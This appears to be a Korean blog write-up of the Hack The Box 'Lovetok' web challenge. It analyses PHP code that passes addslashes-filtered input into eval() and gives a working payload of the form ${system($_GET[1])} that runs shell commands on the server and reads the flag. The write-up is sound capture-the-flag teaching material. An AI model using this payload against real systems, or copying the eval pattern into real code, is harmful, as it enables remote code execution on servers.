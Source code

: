 ```yaml
---
title: '[Hackthebox] Lovetok'
author: hoppi
date: 2022-12-23 01:20:00 + 0100
categories: [Web]
tags: [hackthebox, lovetok, php]
---
```

**키워드: PHP, addslashes()**  
  
![describtion](../../../assets/img/2022-12-23/2022-12-23-description.png){: w="600" h="300" }  
# 코드 분석
***
index 관련 함수를 보면 format 파라미터를 통해 `TimeModel` 생성자의 인자 값을 전달한다. 그리고 `getTime` 함수를 호출한다.

```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : 'r';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```   
{: file="TimeController.php" }

<br><br/>
생성자 부분을 보면 `$format` 변수를 `addslashes` 함수를 통해서 필터링을 해주고 `date` 함수의 인자 값으로 들어간다.
```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));'); // strtotime -> 텍스트를 시간으로 변환 반환 값은 유닉스타임스탬프
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```
{: file="TimeModel.php" }  

# 취약점
***
## addslashes() bypass using complex Syntax
***  
`addslashes` 함수 우회를 통해서 [SQL Injection](https://www.securityidiots.com/Web-Pentest/SQL-Injection/addslashes-bypass-sql-injection.html)을 할 수 있지만 이 문제와는 맞지 않는다. 바로 `complex syntax`을 이용하는 방법이다. 먼저 아래와 같이 작은따옴표와 큰따옴표로 둘러싸여 있을때 차이가 있다.
```shell
php > $a = 1;
php > echo 'a is $a';
a is $a
php > echo "a is $a";
a is 1 
```
<br><br/>
또한 아래와 같이 내가 원하는 값은 `'bad'` 인데 그것을 표현하기 위해 `complex syntax`를 아래와 같이 이용할 수 있다.
```shell
php > $abc='ba';
php > echo "$abcd";
PHP Warning:  Undefined variable $abcd in php shell code on line 1

php > echo "${abc}d";
bad
```

<br><br/>
그리고 이런식의 중괄호 안에 함수가 들어갈 수 있는데 <u>먼저 함수를 실행한 뒤</u>, 함수에서 반환되는 값을 변수 이름으로 설정하고 값 할당이 가능해진다. (phpinfo 함수가 먼저 실행된 모습)
```shell
php > var_dump(${phpinfo()}=123);

...

PHP Quality Assurance Team
Ilia Alshanetsky, Joerg Behrens, Antony Dovgal, Stefan Esser, Moriyoshi Koizumi, Magnus Maatta, Sebastian Nohn, Derick Rethans, Melvyn Sopacua, Pierre-Alain Joye, Dmitry Stogov, Felipe Pena, David Soria Parra, Stanislav Malyshev, Julien Pauli, Stephen Zarkos, Anatol Belski, Remi Collet, Ferenc Kovacs

                     Websites and Infrastructure team
PHP Websites Team => Rasmus Lerdorf, Hannes Magnusson, Philip Olson, Lukas Kahwe Smith, Pierre-Alain Joye, Kalle Sommer Nielsen, Peter Cowburn, Adam Harvey, Ferenc Kovacs, Levi Morrison
Event Maintainers => Damien Seguy, Daniel P. Brown
Network Infrastructure => Daniel P. Brown
Windows Infrastructure => Alex Schoenmaker

PHP License
This program is free software; you can redistribute it and/or modify
it under the terms of the PHP License as published by the PHP Group
and included in the distribution in the file:  LICENSE

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.

If you did not receive a copy of the PHP license, or have any
questions about PHP licensing, please contact license@php.net.

int(123) 
php > var_dump($a=123);
int(123)
```


# Exploit
***
`eval` 함수를 통해서 `date` 함수를 이용하는데 첫 번째 파라미터는 string 형태의 `$format` 인데 만약 일치하는 [포맷](https://www.w3schools.com/php/func_date_date.asp)이 없으면 그대로 출력하는 것을 볼 수 있다. (A → AM을 나타냄)  
그렇기 때문에 `complex syntax`를 이용하여 `${system()}` 처럼 `system` 함수가 먼저 실행되게 하여  명령어 결과를 볼 수 있다.  
![describtion](../../../assets/img/2022-12-23/2022-12-23-am.png){: w="600" h="300" }
_/?format=A$$$_  
<b></b>
따라서 다음과 같은 페이로드가 가능하다. <u>하지만 따옴표는 기본적으로 addslashes 함수에 걸리기 때문에 사용할 수 없어서 1이라는 파라미터를 따로 설정하여 명령어를 system 함수의 인자로 넣어줘야한다.</u>
```
/?format=${system($_GET[1])}&1=ls%20-al
```    
![describtion](../../../assets/img/2022-12-23/2022-12-23-ls.png){: w="600" h="300" }
_/?format=${system($_GET[1])}&1=cat%20/ls%20-al%20/_


![describtion](../../../assets/img/2022-12-23/2022-12-23-flag.png){: w="600" h="300" }
_/?format=${system($_GET[1])}&1=cat%20/flag*_